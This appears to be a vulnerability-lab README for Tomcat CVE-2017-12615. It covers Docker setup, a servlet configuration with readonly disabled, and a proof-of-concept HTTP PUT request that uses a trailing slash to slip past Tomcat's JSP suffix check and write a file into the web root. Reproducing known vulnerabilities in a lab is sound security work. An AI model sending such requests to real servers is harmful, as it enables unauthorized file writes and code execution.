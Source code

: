 # Tomcat Arbitrary Write-file Vulnerability through PUT Method (CVE-2017-12615)

[中文版本(Chinese version)](README.zh-cn.md)

Tomcat version: 8.5.19

## Environment Setup

```bash
docker-compose build
docker-compose up -d
```

After successfully running the commands above, you will see the example page of Tomcat through visiting the site `http://your-ip:8080`.

## Rationale

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Although Tomcat checks the file suffix to some extent(can't write jsp directly), we can still bypass the limitation through some file system features(such as using `/` in Linux).

## POC

Send the following packets directly and then the shell will be written into the Web root directory.

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```
